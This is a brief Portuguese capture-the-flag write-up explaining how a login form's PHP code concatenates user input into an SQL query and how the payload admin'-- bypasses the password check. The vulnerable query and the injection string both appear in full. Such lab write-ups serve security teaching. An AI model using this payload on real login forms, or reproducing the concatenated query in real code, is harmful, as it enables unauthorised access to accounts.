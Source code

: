 O objetivo deste CTF era obter acesso à flag devido à vulnerabilidade existente na validação do login.

Ao analisar o ficheiro ```index.php``` foi possível verificar que a query executada para cada tentativa de login é a seguinte query.
```sql
    $username = $_POST['username'];
    $password = $_POST['password']; 
    $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

Como a validação é feita diretamente com os valores inseridos pelo utilizador, é possível explorar a vulnerabilidade de SQL Injection. Para tal, basta inserir o seguinte no campo de username e password.
```sql
    admin'--
    password
```

Ao introduzir ```admin'--``` como username, a query executada será a seguinte,

```sql
    SELECT username FROM user WHERE username = 'admin'--' AND password = 'password'
```

comentado o resto da query possibilitando fazer login com o utilizador admin, sem necessitar de saber a password.


Deste modo, a flag será corretamente obtida.